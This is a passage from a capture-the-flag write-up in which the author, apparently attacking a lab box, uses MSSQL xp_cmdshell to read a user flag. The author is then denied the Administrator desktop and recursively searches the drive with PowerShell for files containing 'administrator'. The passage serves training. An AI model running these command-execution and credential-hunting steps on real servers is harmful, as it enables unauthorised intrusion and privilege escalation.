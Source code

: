```bash
SQL> xp_cmdshell "type c:\Users\sql_svc\Desktop\user.txt"
output                                                                             
 
--------------------------------------------------------------------------------   
 
3e7b102e78218e935bf3f4951fec21a3
```

I was delighted at this point. But still had my eyes to the second and more challenging part: retrieve the administrator’s flag.
I attempted to access the path where the flag is located but unfortunately I could not access it:

```bash
SQL> xp_cmdshell "cd c:\Users\Administrator\Desktop"
output                                                                             
 
--------------------------------------------------------------------------------   
Access is denied.
```

I decided, since I had access to the C: drive, it was worth to do a recursive search in the drive to see if we can find the word “administrator” in some file (since we know that only the administrator account can access the flag on its desktop):
I spawned a new PowerShell process and ran the following command only to be stopped because of denial to search in a particular path (The Event Viewer logs):

```powershell
SQL>xp_cmdshell "powershell "Get-ChildItem -Recurse | Select-String administrator -List | Select Path""
 
Select-String : The file C:\Windows\system32\winevt\Logs\Windows PowerShell.evtx cannot be read: Access to the path    
 
'C:\Windows\system32\winevt\Logs\Windows PowerShell.evtx' is denied.               
 
At line:1 char:26                                                                  
 
+ Get-ChildItem -Recurse | Select-String administrator -List | Select P ...        
 
+                          ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~                       
 
    + CategoryInfo          : InvalidArgument: (:) [Select-String], ArgumentException   
 
    + FullyQualifiedErrorId : ProcessingFile,Microsoft.PowerShell.Commands.SelectStringCommand   
```

I altered the command a bit and added the flag `-ErrorAction SilentlyContinue` to prevent the script from from stopping. Let me break down each part to explain what it’s intended to do.
The first part retrieves all files and directories from the `sql_svc` home folder recursively. [The `-File` flag ensures the cmdlet only returns files. The `-Force` flag is important here because it searches for all files (even hidden ones)](https://superuser.com/questions/150748/have-powershell-get-childitem-return-files-only):

```powershell
Get-ChildItem -Path C:\Users\sql_svc -Recurse -Force -ErrorAction SilentlyContinue -File
```
